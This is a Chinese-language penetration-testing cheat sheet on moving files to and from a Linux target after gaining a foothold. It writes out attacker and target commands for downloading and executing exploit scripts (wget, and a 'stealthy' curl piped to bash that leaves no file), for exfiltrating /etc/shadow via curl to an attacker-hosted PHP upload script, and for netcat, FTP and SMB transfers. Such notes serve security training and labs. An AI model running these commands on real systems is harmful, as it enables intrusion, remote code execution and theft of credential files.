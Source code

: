 ```yaml
---
description: 在目标系统中已经成功建立立足点后，需要传输一些脚本到目标系统中，以实现后续的提权操作
---
```


# ✔️ Linux文件传输 - Linux File Transfers

## 常规方式

### 利用Python传输：

```bash
// Attacker
python3 -m http.server 8888
```

```bash
// Target
wget http://攻方IP:8888/利用脚本.sh
chmod +x 利用脚本.sh
利用脚本.sh
```

### 利用Apache2传输：

```
// Attacker
1. 准备好upload.php文件，放在/var/www/html目录下；
2. 同时在/var/www/html目录下再创建一个/uploads目录，用于存放稍后从目标系统中传回的敏感文件；
```

```bash
// Target
curl --form "uploadedfile=@/etc/shadow" http://攻方IP/upload.php
```

```php
// upload.php
<?php  
$target_path = "uploads/";
$target_path = $target_path.basename($_FILES['uploadedfile']['name']);

echo "Source=".$_FILES['uploadedfile']['name']."<br/>";
echo "Target path=".$target_path."<br/>";
echo "Size=".$_FILES['uploadedfile']['size']."<br/>";

if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)){
	echo "The file".basename($_FILES['uploadedfile']['name'])."has been uploaded";
}else{
	echo "There was an error uploading the file,please try again!"
}

?>
```

### 利用Netcat传输

```bash
// Attacker
nc -lvp 1234 > 传回的文件名 
```

```bash
// Target
nc 攻方IP 1234 < 待传回的文件名
```

### 利用FTP传输

```bash
// Attacker
sudo python3 -m pyftpdlib  -p 21 -w
python -m pyftpdlib -p 21
```

```bash
// Target
ftp -A 攻方IP
dir               # 查找要传到目标上的程序，本例为：winPEAS.exe
get winPEAS.exe
bye
```

### 利用SCP传输

```bash
// Attacker
scp 待传输文件的路径 目标用户命@目标IP:传输后保存的路径
```

### 利用SMB客户端传输

前提条件：**已安装smbclient**

```bash
// 格式：
smbclient //server_ip/share_name -U username
```

启动了一个 SMB 服务器，允许其他设备通过 SMB 协议与之通信，并在本地文件系统的当前目录下共享文件（本例为 "liodeus"）：

```bash
// Attacker
sudo smbserver.py -smb2support liodeus .
```

```bash
// Target
smbclient //攻方IP/liodeus -U 用户名
// 连接成功后，查找对应文件，并下载到目标本机中(本例为 "liodeus")：
ls
get liodeus
// 还可以从目标机器里上传文件到攻方SMB服务器：
put 文件名
quit
```



## 隐蔽方式

```bash
// Attacker
python3 -m http.server 8888
```

```
// Target
curl http://攻方IP:8888/利用脚本.sh | bash
```

MEMO：该利用脚本不会被保存在目标系统中
